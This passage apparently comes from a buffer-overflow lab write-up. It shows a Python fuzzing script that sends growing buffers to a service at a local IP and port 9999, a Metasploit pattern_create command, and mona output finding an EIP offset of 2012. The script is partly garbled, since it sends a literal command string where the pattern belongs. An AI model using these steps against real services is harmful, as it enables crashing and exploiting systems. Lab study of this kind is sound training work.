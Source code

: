 ```shell
    s.close()


```

So with this we can check the max output until the buffer is full . 

So after this we need to run a pattern on msf so we run this 

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2200`

```python


#!/usr/bin/python 

import sys, socket

ip = '192.168.195.149'
port = 9999
buffer = ['pattern_create.rb -l 2200`']
counter = 100

while len(buffer) <= 30:
    buffer.append('A'*counter)
    counter = counter + 100
try:
    for string in buffer:
        print '[+] Sending %s bytes...' % len(string)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip, port))
        s.recv(1024)
        s.recv(1024)
        s.send("davs" '\r\n')
        s.recv(1024)
        s.send(string + '\r\n')
        print '[+] Done'
except:
    print '([!] A connection cant be stablished to the program. It may have crashed.)'
    sys.exit(0)
finally:
    s.close()

```

And on immunnity we run mona to check for the offset of the EIP 

`!mona findmsp -distance 2200`

Log data, item 21
 Address=0BADF00D
 Message=    EIP contains normal pattern : 0x31704330 (offset 2012)


So we have that the offset is 2012
